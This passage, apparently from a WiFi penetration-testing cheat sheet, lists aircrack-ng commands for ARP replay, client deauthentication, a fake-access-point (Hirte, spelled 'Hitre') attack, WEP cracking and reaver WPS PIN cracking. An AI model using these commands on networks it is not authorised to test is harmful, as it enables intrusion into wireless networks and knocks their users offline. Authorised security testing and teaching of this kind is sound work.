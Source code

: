 Start a standard ARP request replaying against a specified WiFi network:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid -h FF:FF:FF:FF:FF:FF --arpreplay
```

[Optional] Deauthenticate clients from a specified WiFi network:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid --deauth 10
```

Crack the WEP authentication:

```fundamental
aircrack-ng -b FF:FF:FF:FF:FF:FF -e essid replay_arp*.cap
```

### Hitre Attack

This attack targets clients, not wireless access points.

[Optional] Set up a fake WEP WiFi network:

```fundamental
airbase-ng wlan0mon -c 8 -a FF:FF:FF:FF:FF:FF --essid essid -W 1 -N
```

If needed, turn up a wireless network interface power to missassociate clients on the fake WiFi network, see how in [section one](#1-configuration).

Monitor the real/fake WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 --bssid FF:FF:FF:FF:FF:FF --essid essid --write airodump_essid_results
```

Start replaying packets to clients within your range:

```fundamental
aireplay-ng wlan1 -h FF:FF:FF:FF:FF:FF -e essid --cfrag -D
```

[Optional] Deauthenticate clients from the real/fake WiFi network:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid --deauth 10
```

Crack the WEP authentication:

```fundamental
aircrack-ng -b FF:FF:FF:FF:FF:FF -e essid airodump_essid_results*.cap
```

### WPS PIN

Crack a WPS PIN:

```fundamental
reaver -vv -i wlan1 -c 8 -b FF:FF:FF:FF:FF:FF -e essid --pixie-dust
```
